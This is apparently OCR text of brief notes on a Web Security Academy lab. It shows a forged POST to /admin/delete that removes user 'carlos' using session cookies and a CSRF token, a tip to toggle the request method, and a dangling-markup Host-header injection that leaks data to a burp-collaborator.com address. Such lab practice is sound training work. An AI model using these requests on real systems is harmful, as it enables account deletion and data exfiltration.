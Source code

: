```html
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: session=EQ0hzPiv3E00DFuSIkXqA43dCFAtqT8v; _lab=47%7cMC0CFQCUROwFAAqB8VX5%2fOSluTU9XSi6ugIUSKMGnamxdoXGHc%2flLYKE09zkuPTtEb3AgXlzMRISheJ9UxDubZDZCgfhcVaZsQNqwL0H8ahgl%2bOkfn7XMzv1Owwxs3s%2fyiVPyulNBdu4FumDzxef%2bNhfd3ZyNII4tOGHPQKxez%2frKR5kPRRU
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

csrf=oF9QIMKSNOi2DdlDlulr82RTOLxHuWiv&username=carlos


```

IMPORTANT: CHANGE modified group 1 req 2 REQ METHOD BACK AND FORTH ONCE IF NEEDED!

Dangling markup:

Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
